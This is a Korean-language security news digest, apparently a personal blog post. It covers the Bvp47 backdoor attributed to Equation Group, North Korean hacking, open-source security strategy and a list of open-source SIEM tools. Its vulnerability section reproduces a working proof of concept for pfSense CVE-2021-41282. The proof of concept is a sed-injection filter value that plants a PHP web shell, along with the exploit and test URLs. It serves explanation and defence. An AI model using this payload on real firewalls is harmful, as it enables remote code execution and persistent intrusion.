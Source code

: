 ```yaml
---
layout: post
title: 보안기사 이모저모
date: 2022-02-24 09:00:00 +0900
category: SecurityNews
---
```



# [ Security News ]
---
#### Chinese Experts Uncover Details of Equation Group's Bvp47 Covert Hacking Tool [[link]](https://thehackernews.com/2022/02/chinese-experts-uncover-details-of.html?fbclid=IwAR3XT7BLVJ70_l5QG_mJKfNj_j-6e3A4lhPjj0gop35YpbWvBiD6CmLO7LY)
+ 개요
	- 중국 판구 연구소(Pangu Lab)연구원들이 미국국가안보국(NSA)의 사이버전쟁정보수집부서와 관련있는 APT인 Equation Group의 내용공개
	- 백도어 기능을 하는 Bvp47을 통해 공격방식에 대해 공개하였으나 상세보고서는 부재
		* Equation Group
	- 2001년부터 활동하였으며 사이버 스파이공격의 창시자로 명명(by Kaspersky)된 APT그룹
	- 일부는 Stuxnet에 통합되었으며 정보, 통신, 항공우주, 에너지, 원자력연구, 석유 및 가스, 군사, 나노기술, 금융기관 등을 공격
	- 2016년 Shadow Brokers라고 하는 악성코드 도구셋이 공개되면서 조직정보도 공개
	- 참고자료
		1) Equation Group: The Crown Creator of Cyber-Espionage [link](https://www.kaspersky.com/about/press-releases/2015_equation-group-the-crown-creator-of-cyber-espionage)
		![이미지](1)
+ Bvp47 as a covert backdoor
![이미지](2)
 
+ Links to the Equation Group
	- 2016년 8월 Shadow Brokers가 사용한 GPG암호화 아카이브 파일"eqgrp-auction-file.tar.xz.gpg"에 포함된 Exploit과 중복되어 발생
		ㄴ "eqgrp-auction-file.tar.xz.gpg"(Browsable content of eqgrp-auction-file.tar.xz : https://github.com/x0rz/EQGRP)
	- 'eqgrp-auction-file.tar.xz.gpg'파일 분석과정에서 Bvp47과 압축 패키지에 포함되어 있는 공격 도구는 주로 
		'dewdrops,' 'suctionchar_agents,' 'tipoffs,' 'StoicSurgeon,' 'incision'등이 포함
		ㄴ 'tipoffs’은 Bvp47의 비밀채널에 사용되는 RSA비대칭 알고리즘 개인키가 포함되어 있어 이를 기반으로 공격그룹 확인 가능

#### 사이버공격 우크라이나 걱정할 때 아냐…대통령 선거 겨냥 北 해킹 공격 늘어 [[link]](http://it.chosun.com/site/data/html_dir/2022/02/23/2022022302311.html?fbclid=IwAR2vhPoKiKW3_eVI6uTND1n-7gfe73YNaCC1rIPxw3nzSQsAObJBFnfwW0c)
- 우크라이나와 러시아의 사이버 공격이 고조되고 있으나 국내에서도 메가이벤트들이 즐비하기 때문에 주의 필요

#### 세상 모든 곳에 존재하는 오픈소스만 잡아도 보안은 높게 유지된다 [[link]](https://www.boannews.com/media/view.asp?idx=104962&fbclid=IwAR2G5BhuTk0djJmjmtm9V2E1f46pWCczyrGEwzSu31KLYV7_j8rr_DhOl5E)
+ 오픈소스에 대한 특징 및 보안강화를 위한 대응전략에 대한 기고
	>1. 오픈소스로 인한 공격피해규모와 피해범위 산정 한계
		- 2017년 에퀴팩스(Equifax)라는 대형 신용 모니터링 및 조회 기업에서 오픈소스 관련 데이터 침해 사고가 발생했을 때 1억 5천 명에 가까운 사람들이 피해
		- BUT, 중소 기업에서 주로 사용하는 오픈소스인 에스포CRM(EspoCRM), 핌코어(Pimcore), 어카운팅(Akaunting)에서 취약점이 9개나 발견됐지만 화제성 결여
	2. 오픈소스의 필요성
		- 시간과 투자비용 절감으로 인해 현종하는 웹사이트의 60%가 Aapceh와 NginX기반
	3. 소프트웨어 테스팅 및 보호방안
		- 소스코드 정적분석 스캐닝 및 보안진단(샌드박스인 동적분석 추가)
		- 취약점 발생시 해결프로세스 명확화 : 개발순서, 테스트 방법, 테스팅 기간, 권한 등 명문화(자격 및 등급)
		- 보안문제 규정 및 규칙 수립 필요 : 투자(리눅스재단의 경우 지난 10월 1천만달러 투자를 통해 취약점 발견 및 해결 등 결정)
	3rd Party코드나 연계로 인한 문제를 해결하여 최종적으로 Resillience를 수립하는 것이 중요


# [ Vulnerability ]
---
#### Remote Code Execution in pfSense <= 2.5.2 [[link]](https://www.shielder.it/advisories/pfsense-remote-command-execution/?fbclid=IwAR2S-4XwrZtrdfOtqGCGn1N1p9HnecgBTg2dvPDtNQzrlWZSOQ_tGw6fjlI)
+ CVE : CVE-2021-41282
+ 대상 : FreeBSDLinux 기반 네트워크 방화벽 pfSense
+ 설명 : 공격자가 diag_routes.php를 통해 코드를 실행하기 위해 악용할 수 있는 보안 취약점 존재(pfSense CE 2.6.0또는 pfSense Plus으로 업데이트)
+ 취약점 설명
diag_routes.php [link](https://github.com/pfsense/pfsense/blob/a7086b04cae21ca742fdeefd1019ee1401b6dded/src/usr/local/www/diag_routes.php#L35-L65)
![이미지](3)

	- L51~52에서 요청값(Request)에 filter매개변수가 포함되는 경우 HTML특수문자가 HTML 엔티티로 변환
	- 그 이후 일부 하트도킹된 sed구문이 접두사와 접미사를 붙이고 escapeshellarg함수에 의해 이스케이프되어 하위명령어나 기타 인수가 주입되는 것을 방지
	- L62에서 filter매개변수에 입력한 명령어가 실행
	- 이에서 언급한 내용들은 htmlspecialchars함수를 통해 인코딩되는 제한이 존재하는 임의의 sed구문을 삽입가능하며,
	- 이를 통해 ‘s/match/replace/’명령어를 사용해 netstat출력의 일부를 임의의 문자열로 치환하고 ‘w /path/to/file’명령어를 사용해 sed명령의 출력을 임의의 위치에 쓰는 것(Write)이 가능하게 됨
	- 위에 언급된 모든 내용은 Wrapping하면 공격자가 필터 매개변수에 다음의 문자을을 입력하여 공격 수행
		ㄴ입력하는 명령어 : .*/!d;};s/Destination/\x3c\x3fphp+system($_GET[\x22a\x22])\x3b\x3f\x3e/;w+/usr/local/www/a.php%0a%2
		ㄴ실제 수행되는 명령어 : 
		<pre><code>
		/usr/bin/netstat -rW -f inet | /usr/bin/sed -e '1,3d; 5,\$ { /!d;};s/Destination/\x3c\x3fphp system($_GET[\x22a\x22])\x3b\x3f\x3e/;w /usr/local/www/a.php #/!d; };'
		</code></pre>

+ 공격방법(PoC)
	1. pfSense에 로그인
	2. <target>대상 pfSense 인스턴스의 IP 주소/도메인으로 바꿔 다음 URL을 방문
		pfSense instance: http://<target>/diag_routes.php?isAjax=1&filter=.*/!d;};s/Destination/\x3c\x3fphp+system($_GET[\x22a\x22])\x3b\x3f\x3e/;w+/usr/local/www/a.php%0a%23
	3. <target>대상의 pfSense인스턴스의 IP주소/도메인으로 교체하여 다음 URL에 접근하여 ID명령여가 실행되는지 확인
		<pre><code> http://<target>/a.php?a=id </code></per>


# [ Tools ]
---
#### Apache Metron [[link]](https://github.com/apache/metron)
- 보안 모니터링 및 분석을 위한 중앙 집중식 도구를 제공하기 위해 다양한 오픈 소스 빅 데이터 기술을 통합
- OSS SIEM이라고 생각하면 좋을듯
	+ 참고자료(기고 작성중에 SIEM관련 OSS검색 중에 검색한 내용)
1) THE TOP 14 FREE AND OPEN SOURCE SIEM TOOLS FOR 2021 [link](https://logit.io/blog/post/the-top-14-free-and-open-source-siem-tools-for-2021)
	>1. AlienVault OSSIM
	2. SIEM Monster
	3. Wazuh
	4. Snort
	5. OSSEC
	6. Sagan
	7. Logit.io (ELK기반 SIEM)
	8. Apache Metron
	9. Prelude
	10. Splunk Free
	11. Mozdef
	12. Security Onion
	13. Suricata
	14. Graylog

2) How to Build a SOC With Open Source Solutions? [link](https://socradar.io/how-to-build-a-soc-with-open-source-solutions/)
- Technology : Network monitoring, Endpoint management, Asset discovery, Threat intelligence, Behavioral monitoring, Data loss prevention, Ticketing systems, Policy compliance, Incident response
	> A. SIEM : Apache Metron, AlienVault OSSIM, MozDf, OSSEC, Wzxuhm Prelude OSS, Snort, Sagan, ELK Stack, SIEMonster
	B. Intrusion detection and intrusion prevention (IDS/IPS/IDPS) tools : Snort, Suricata, OSSEC, Secutity Onion, Bro Network Security Monitor, Vistumbler, Smoothwall Express, Untangle NG Firewall, ClamAV
	C. Incident response tools : GRR Rapid Response, Cyphon, Volatility, SIFT(SANS Investigavie Forensics Toolkit) Wokrstaion , The Hive Project
	D. Malware analysis tools : Cuckoo Sandbox, YARA, GRR, The REMnux, Bro
	E. Threat Intelligence Tools : MISP, TIH(Threat Intelligence Hunter), QTek/QRadio, Machine Security Intelligence Collector, SOCRadar Community Edition
	F. Web Application Firewalls : ModSecurity, NAXSI, WebKnight, Shadow Daemon
